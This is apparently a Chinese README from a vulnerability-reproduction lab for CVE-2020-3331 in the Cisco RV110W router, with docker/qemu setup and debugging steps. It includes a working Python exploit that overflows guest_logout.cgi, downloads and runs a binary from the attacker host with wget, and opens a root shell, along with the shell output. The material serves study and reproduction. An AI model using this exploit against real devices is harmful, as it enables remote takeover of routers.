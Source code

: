 # Cisco RV110W 路由器远程代码执行漏洞 （CVE-2020-3331）

[思科路由器 RV110W CVE-2020-3331 / CVE-2020-3323 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

- 版本：Cisco RV110W 1.2.2.5
- 漏洞：前台栈cgi接口 `guest_logout.cgi` 栈溢出
- 利用：a0寄存器可控，ret2system

> exp: python2

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')

io      = listen(31337)
system  = 0x0047A610

cmd     = '\n'
cmd    += 'rm /msf\n'
cmd    += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd    += 'chmod 777 /msf\n'
cmd    += '/msf\n'

assert(len(cmd)<0x55)

payload =  "status_guestnet.asp" + cmd.ljust(0x55,'a') + p32(system) 
data    = {"cmac":"12:af:aa:bb:cc:dd", "submit_button":payload, "cip":"192.168.100.1"}

def attack():
    try: requests.post("http://192.168.2.2/guest_logout.cgi", data=data,timeout=1)
    except: pass

thread.start_new_thread(attack,())
io.wait_for_connection()
log.success("getshell")
io.interactive()
```


## 环境简述

- docker：     攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd: 有漏洞 Web服务器：192.168.2.2:80

## 基本环境

- 本环境dockerfile依赖：`firmianay/qemu-system:mipsel`
- 上述dockerfile又依赖：`firmianay/ubuntu1604`

故首先需要本地构建这两个docker image，方法如下：

```sh
➜  cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
➜  cd baseImage/qemu-system/mipsel &&  docker build -t firmianay/qemu-system:mipsel . && cd ../../../
```

然后即可编译本例镜像：

```
➜  cd Cisco/CVE-2020-3331
➜  docker-compose -f docker-compose-system.yml build
```

## 首次攻击尝试

仍然在`Cisco/CVE-2020-3331`目录中，启动镜像：

```sh
➜  docker-compose -f docker-compose-system.yml up
```

出现如下内容后，说明Web服务启动完成：

```
cisco-system  | http_settimeouts=Unknown
cisco-system  | http_settimeouts_usec=Unknown
cisco-system  | http_debug=Unknown
```

再开启一个容器的shell，即可尝试首次攻击：

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ python exp.py 
[+] Trying to bind to :: on port 31337: Done
[+] Waiting for connections on :::31337: Got connection from ::ffff:192.168.2.2 on port 57638
[+] getshell
[*] Switching to interactive mode
$ uname -a
Linux debian-mipsel 3.2.0-4-4kc-malta #1 Debian 3.2.51-1 mips unknown
$ id
uid=0 gid=0
```

## docker中调试

- gef，pwntools，gdb-multiarch都集成好的docker
- gdbserver已经放在qemu-system跑起来的固件的文件系统中


窗口一：开启调试（qemu-system shell）

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ ./run_qemu.sh

即可进入qemu-system，以root:root手动登录后，即可启动调试

root@debian-mipsel:$ cd squashfs-root/
root@debian-mipsel:$ ./run_httpd.sh       
root@debian-mipsel:$ ./debug_httpd.sh 
Attached; pid = 2328
Listening on port 1234
```

窗口二：调试界面（docker shell）

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ gdb-multiarch -x  gdb.cmd 
gef➤  c
```

窗口三：触发漏洞（docker shell）

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ python exp.py
```

## 本机调试

如果你不想用docker进行调试，在docker-compose中预留了端口映射，可以手动使用ssh将qemu靶机的80和1234端口转发到docker主机，通过docker最终映射到宿主机的端口上：

> docker-compose-system.yml

```yml
ports:
    - "8888:80"
    - "1234:1234"
expose:
    - "80"
    - "1234"
```

转发命令如下，ssh自己实现端口转发：

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:1234:192.168.2.2:1234
root@7463bb44fe27:$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:80:192.168.2.2:80
```

待启动调试后，即可在宿主机上访问8888和1234端口来访问漏洞服务和gdbserver了